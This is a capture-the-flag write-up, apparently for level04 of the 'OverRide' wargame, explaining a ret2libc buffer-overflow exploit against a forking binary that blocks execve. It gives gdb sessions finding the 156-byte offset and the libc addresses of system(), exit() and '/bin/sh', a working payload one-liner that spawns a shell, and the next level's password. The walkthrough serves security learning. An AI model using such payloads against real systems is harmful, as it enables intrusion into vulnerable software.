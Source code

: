 This time, the program displays "Give me some shellcode, k" and waits for user's input. When filling in a random string, the program displays "child is exiting..." and exits. 

Looking at the [source code](source.c), we see that the program creates a child process using fork(). The user's input is registered using gets() in the child process (which, once again, is vulnerable to buffer overflow attacks). Meanwhile, the parent process checks what the child process is doing with the ptrace(PTRACE_PEEKUSER, ...) command: when a system call occurs in the child process, the kernel saves the original contents of the eax register, which contains the system call number. Here, the child process is killed if the system call number is 11 (= execve). This is a kind of protection to prevent us from exploiting the binary file with the execve() command.

We could approach this exercise in different ways, for example by writing shellcode that does not call execve() but rather system(). But we'll do something else, because we've never tried that before and it looks like fun: a ret2libc attack. It's basically the same as exploiting the return address of the vulnerable function contained in eip, except that instead of putting there the address a shellcode we wrote, we'll go and get the addresses (in this case, the address of system() and an address that points to "/bin/sh") somewhere else in the memory. I used [this article](https://bufferoverflows.net/ret2libc-exploitation-example/) as a guide.

As we have already done before, we use gdb to find the offset of eip which contains the return address of the function. Small particularity here, we use the `set follow-fork-mode child` command to follow the child process:

```
(gdb) set follow-fork-mode child
(gdb) r < <(python -c 'print "A" * 156 + "aaaa"')
Starting program: /home/users/level04/level04 < <(python -c 'print "A" * 156 + "aaaa"')
[New process 2334]
Give me some shellcode, k

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2334]
child is exiting...
0x61616161 in ?? ()
```

So we have an offset of 156 bytes. Now let's find the addresses of system() and exit(), as well as an address that contains "/bin/sh". Why exit() ? So that our call to system() is cleaner. Indeed, when calling system(), in addition to the parameter, we must pass it a return address. We could pass it anything and then the program would crash after the call to system(), but if we're going to do it, we might as well do it right.

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

We can now build our payload: first, 156 bytes of padding to reach eip, followed by the address of system(), then the return address (so in our case, exit()), and finally, the parameter of the call to system(): the memory address containing "/bin/sh".

```
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
We can now reach the next level with the command `su level05` and fill in the flag found as a password.